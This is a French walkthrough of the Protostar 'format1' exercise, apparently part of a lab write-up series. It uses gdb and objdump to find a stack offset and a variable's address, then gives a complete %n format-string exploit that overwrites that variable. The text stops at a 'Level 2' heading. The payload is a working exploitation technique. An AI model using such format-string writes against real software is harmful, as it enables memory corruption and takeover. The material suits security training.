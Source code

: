 > objdump -t is your friend, and your input string lies far up the stack :)

Je peux placer un breakpoint dans la fonction `vuln` et observer où notre buffer se trouve dans la stack :

```
(gdb) b *0x0804841b
Breakpoint 1 at 0x804841b: file format1/format1.c, line 15.
(gdb) r `python -c 'import struct; print "AAAA%142$08x"'`
Starting program: /opt/protostar/bin/format1 `python -c 'import struct; print "AAAA%142$08x"'`

Breakpoint 1, 0x0804841b in vuln (string=0x2 <Address 0x2 out of bounds>) at format1/format1.c:15
15      format1/format1.c: No such file or directory.
        in format1/format1.c
(gdb) x/64wx $esp
0xbffff77c:     0x08048435      0xbffff97c      0xb7ff1040      0x0804845b
0xbffff78c:     0xb7fd7ff4      0x08048450      0x00000000      0xbffff818
--- snip ---
0xbffff96c:     0x2f726174      0x2f6e6962      0x6d726f66      0x00317461
(gdb) 
0xbffff97c:     0x41414141      0x32343125      0x78383024      0x45535500
```

Effectivement il faut 512 octets avant d'attendre le début de notre chaine soit 128 dwords.

Il faut jouer un peu avec le padding mais en me servant du format `%<position>$08x` je retrouve bien mes données en 129ème position sur la stack :

```bash
user@protostar:/opt/protostar/bin$ ./format1 `python -c 'import struct; print "pAAAAp%129$08x"'`
pAAAAp41414141
```

On voit bien le `41414141` correspondant à nos `AAAA` en hexadécimal.

L'adresse de la variable `target` se retrouve dans l'output de `objdump` :

```bash
user@protostar:/opt/protostar/bin$ objdump -t format1 | grep target
08049638 g     O .bss   00000004              target
```

Le code attend juste que la variable soit modifiée (différente de zéro). On doit utiliser le format `%n` qui indique à `printf` d'écrire en mémoire un entier correspondant au nombre de caractères qu'il a affiché. Associé à l'indicateur de position on lui dit d'écrire à l'adresse contenue à la 129ème position sur la stack (adresse sous notre contrôle puisqu'on la reflétée en hexa plus tôt).

```bash
user@protostar:/opt/protostar/bin$ ./format1 `python -c 'import struct; print "p" + struct.pack("<I", 0x08049638) + "p%129$08n"'`
p8pyou have modified the target :)
```

Bingo ! On a du écrire 6 octets dans la variable, ce qui suffit à passer l'épreuve.

## Level 2
